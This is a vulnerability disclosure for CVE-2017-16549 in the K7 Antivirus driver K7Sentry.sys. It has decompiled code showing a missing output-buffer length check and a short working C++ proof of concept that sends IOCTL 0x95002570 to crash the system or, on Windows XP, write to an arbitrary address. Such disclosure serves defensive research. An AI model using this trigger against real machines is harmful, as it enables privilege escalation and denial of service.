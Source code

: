 # CVE-2017-16549

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771


# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x95002570 does not check the length of the output buffer before using it and assigns a 4 byte value to the output buffer. As is visible from the case 0x9500256C, **before** *pOutputBuffer* is assigned to, *dwOutLength* is checked to ensure it can hold a 4 byte value. In in the case for 0x95002570, no such check exists.

 The code snippet below is the decompiled code which has been named and commented up to illustrate the problem.


```C++
case 0x9500256C:  // This IOCTL is fine as it length checks the parameters
    if ( stIoControlBuffer.InputBufferLength < 4u || !pInputBuffer )
        goto LABEL_49;
    // Check here to ensure that the output length is >= 4
    if ( dwOutLength_1 < 4 )
        goto LABEL_39;
    // Write 4 bytes to it (32-bit so PVOID is 4 bytes in this case)
    *pOutputBuffer = (PVOID)1;
    *v2 = 4;
    v9 = 0;
    goto LABEL_117;
case 0x95002570:
    *v2 = 4;
    // Bug: No check here to ensure you are allowed to write to pOutputBuffer
    *pOutputBuffer = (PVOID)dword_4EFF0;
    v9 = 0;
    goto LABEL_117;
```

# PoC Code
This PoC will open a connection to the driver and call it with the approiate IOCTL code to geneate the crash.

```c++
HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDevice != INVALID_HANDLE_VALUE)
{
    DeviceIoControl(hDevice, 0x95002570, (PVOID)arrInBuffer, 0, (PVOID)0xaaaaaaaa, 0, &dwBytesReturned, NULL);
}
```

On Windows XP, this will attempt to write the value of *dword_4EFF0* to *0xaaaaaaaa*. On this platform, this could be easily used for a privilege escallation.

On Windows 7 and above, this will attempt to write the value at *dword_4EFF0* to 0x00000000 and will cause a BSOD. This would simply be an availability issues.
